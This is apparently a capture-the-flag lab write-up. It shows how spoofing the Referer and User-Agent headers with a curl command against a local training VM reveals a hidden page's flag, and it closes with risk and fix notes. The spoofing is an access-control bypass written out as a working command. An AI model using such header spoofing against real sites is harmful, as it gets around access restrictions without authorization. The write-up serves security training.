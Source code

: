 # Born to Sec

http://192.168.56.101/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

Interesting comments in HTML near bird link

```html
<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->
```

This sounds like the `Referer` header field

```html
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

This sounds like the `User-Agent` header field

This curl command sets all the right fields in the header and makes a request

```bash
curl -v \
-H 'Referer: https://www.nsa.gov/' \
-H 'User-Agent: ft_bornToSec' \
'http://192.168.56.101/?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' \
> out.html
```

Sure enough the flag is sent back

## Risk

This may allow a user with invalid credentials to access a disallowed page

## Fix

Use a proper login page to handle logins
